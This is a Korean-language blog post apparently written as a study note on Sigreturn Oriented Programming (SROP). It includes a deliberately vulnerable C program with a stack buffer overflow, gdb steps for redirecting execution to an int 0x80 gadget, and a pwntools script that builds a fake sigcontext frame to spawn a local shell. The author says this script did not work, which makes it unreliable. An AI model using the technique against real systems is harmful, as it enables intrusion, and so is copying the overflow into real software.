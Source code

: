 ```yaml
---
layout: post
title: "Sigreturn oriented programming"
excerpt: "Try to know SROP & use it ~_~"
categories: [system]
comments: true 
---
```


이번에는 ROP의 다른 종류(?) 느낌인 SROP에 대하여 알아보자.

### 0x0. SROP?

sigreturn 시스템 콜을 이용하여 레지스터에 원하는 값을 저장하는 기법 > 이를 이용하여 원하는 시스템 함수를 호출

ROP를 하기에 가젯이 불충분할 경우 주로 사용 > 많은 가젯이 필요하지 않고 INT80 가젯만으로 충분



### 0x1. singal

SROP는 sigreturn으로 쉘을 따는데, sigreturn을 syscall table에서 찾아보면 eax로 119를 넘겨주면 실행되고, 파라미터로는 unsigend long이 요구된다.

시그널을 받은 프로세스가 커널 모드에서 유저모드로 복귀할 때 사용하는 system call이 sigreturn system call이다. 



### 0x2. example

```c
#include <stdio.h>

void int80(){
asm("int $0x80");
}

int main(){
char buf[8];
read(0,buf,128);
}
```

위와 같은 코드가 있을 때,  우리는 SROP를 하기 위해 read에서 bof를 발생 시킨 후 eax를 조작하고 ret addr를 int 0x80으로 넘겨줘야한다.  
후에 이를 이용하여 /bin/sh을 실행시킨다. 119개의 문자열을 입력하고 int 0x80으로 ret하면 sigreturn함수가 호출된다. 

![srop1](/img/srop1.png)

우선 read다음으로 breakpoint를 걸고 A를 118개를 넣어본다. 그 후  x/40wx $rsp를 보면 아래같이 A로 가득찬걸 볼 수 있다.

![srop2](/img/srop2.png)

다음으로는  i r 을 통하여 레지스터 값을 본다.

![srop3](/img/srop3.png)

레지스터 값을 보면 rax 레지스터에 0x77이 들어가있는걸 확인할 수 있다. 이  0x77이 바로 sigreturn의 syscall number이다.  이제는 ret addr을 int 0x80 gadget으로 덮어씌우자. 

이제 int 0x80 함수를 보면 아래와 같다.

![srop4](/img/srop4.png)

이제 int80의 주소를 main의 ret addr에 넣을것이다 . gdb에서 set {int}0xffffd1d0=0x08048413를 이용하여 가능하다.

![srop5](/img/srop5.png)

이렇게 잘 덮어씌어진걸 알 수 있다.  이제는 sigreturn를 호출하는 sigcontext.h 구조체를 봐야한다.

```c
struct sigcontext{
  unsigned short gs, __gsh;
  unsigned short fs, __fsh;
  unsigned short es, __esh;
  unsigned short ds, __dsh;
  unsigned long edi;
  unsigned long esi;
  unsigned long ebp;
  unsigned long esp;
  unsigned long ebx;
  unsigned long edx;
  unsigned long ecx;
  unsigned long eax;
  unsigned long trapno;
  unsigned long err;
  unsigned long eip;
  unsigned short cs, __csh;
  unsigned long eflags;
  unsigned long esp_at_signal;
  unsigned short ss, __ssh;
  struct _fpstate * fpstate;
  unsigned long oldmask;
  unsigned long cr2;
};
```

이제 이를 참고하여 exploit code를 작성해보자.



### 0x3. exploit :

```python
from pwn import *
p = process('./srop')

syscall = 0x08048413

payload = "A"*20
payload += p32(syscall)
payload += p32(0x33)
payload += p32(0)
payload += p32(0x7b)
payload += p32(0x7b)
payload += p32(0)
payload += p32(0)
payload += p32(0) #ebp
payload += p32(0) #esp
payload += p32(0xffffd184)

payload += p32(0)
payload += p32(0)
payload += p32(0xb)
payload += p32(0)
payload += p32(0)
payload += p32(syscall)
payload += p32(0x73)
payload += p32(0x246)
payload += p32(0)
payload += p32(0x7b)
payload += "\x00"*(118-len(payload))

p.sendline(payload)
p.interactive()
```

아니 난 왜 대체 익스가 안되나 계속 생각해봤는데 아직도 모르겠다. 왜 계속 다른 레지스터들은 변조가 되는데 eip랑 ecx는 변조가 안될까...  결국 그냥 다시 코딩해서 해결했다. 왜 처음엔 안된걸까 

